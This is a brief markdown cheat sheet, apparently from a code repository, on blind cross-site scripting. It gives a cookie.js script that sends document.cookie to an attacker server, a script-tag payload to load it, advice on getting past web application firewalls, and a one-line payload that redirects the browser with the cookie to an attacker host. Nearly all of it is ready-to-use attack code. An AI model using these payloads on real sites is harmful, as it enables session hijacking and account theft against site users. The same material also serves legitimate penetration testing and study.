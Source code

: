# Identifing blind xss
### 1. Host a temorary http server(attacker server) with below file and paste the below code inside as cookie.js
```var request = new XMLHttpRequest();
request.open('GET', 'http://attacker-server-ip/?test='+document.cookie, true);
request.send()```

<br/>
### 2. Submit a payload which will render the above script
``` <script src="http://attacker-server-ip/cookie.js"></script> ```
Try to bypass the filters if there is any WAF

### 3. You will receive cookie on attacker-server

### Directly stealing the cookie(this may or may not work and try it with single quote & double quote and also bypass filter protection if WAF exist)
<script>document.location='http://attacker-ip/?c='+document.cookie</script>
